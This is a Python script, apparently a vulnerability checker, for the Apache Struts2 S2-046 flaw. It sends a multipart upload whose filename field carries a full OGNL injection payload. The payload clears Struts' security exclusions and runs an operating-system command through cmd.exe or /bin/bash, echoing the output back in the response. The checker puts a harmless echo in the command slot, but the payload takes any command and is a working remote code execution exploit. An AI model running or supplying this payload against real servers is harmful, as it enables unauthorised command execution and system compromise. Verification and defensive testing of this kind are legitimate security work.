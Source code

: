 ```python
            'Content-Type': 'multipart/form-data; boundary=---------------------------735323031399963166993862150'
        }
        
        self.payload = '''%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='CMD').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}'''
        self.post_data = '''-----------------------------735323031399963166993862150\r\nContent-Disposition: form-data; name=\"foo\"; filename="{payload}\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n-----------------------------735323031399963166993862150--'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:
        :return str True or False
        """
        
        try:
            self.check_payload = self.payload.replace('CMD', 'echo ' + self.capta)
            check_req = requests.post(self.url, headers = self.headers, data = self.post_data.format(payload = self.check_payload))
            if self.capta in check_req.text and len(check_req.text) < 100:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_046 = S2_046_BaseVerify('http://localhost:8088/s2_046_war_exploded/Upload.action')
    print(S2_046.run())
```
